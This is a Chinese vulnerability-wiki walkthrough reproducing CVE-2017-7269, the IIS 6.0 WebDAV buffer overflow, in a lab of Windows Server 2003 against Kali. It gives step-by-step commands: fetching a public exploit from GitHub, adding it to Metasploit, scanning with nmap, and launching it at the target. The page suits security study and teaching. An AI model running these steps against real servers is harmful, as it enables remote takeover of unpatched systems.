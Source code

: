 （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞
=================================================

一、漏洞简介
------------

IIS
6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对
Windows Server 2003 R2 可以稳定利用。

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

目标主机：Windows Server 2003 R2镜像下载：种子文件用迅雷下载:

    ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/

IP：192.168.1.104

A.安装IIS6.0服务：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId25.png)

B.打开WebDAV服务拓展：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId26.png)

攻击机：kali Linux镜像下载：https://www.kali.org/downloads/IP:192.168.1.106

### 配置攻击套件

\--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp
>
> ls //查看当前目录下的文件

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId28.png)

\--然后我们需要复制EXP到msf框架中\#注意复制时，是下划线"\_"不要写成cve-2017-7269.rb\#，在目录下重命名这个文件为cve\_2017\_7269.rb，输入：

> cp cve\_2017\_7269.rb
> /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //复制EXP到相应目录
>
> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //进入目录
>
> ls //查看当前目录下的文件

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId30.png)

\--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId31.png)

可以看到我们要攻击的80端口已经开启\#

### 利用msf开始攻击

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId33.png)

\--然后我们要使用刚才复制进去的EXP套件输入：

    msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
    msf5 > show options //查看需要的配置

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId34.png)

    msf5 > set rhosts 192.168.1.104 // 设置目标的IP
    msf5 > set rport 80 //设置目标端口

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId35.png)

    msf5 > exploit

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId36.png)
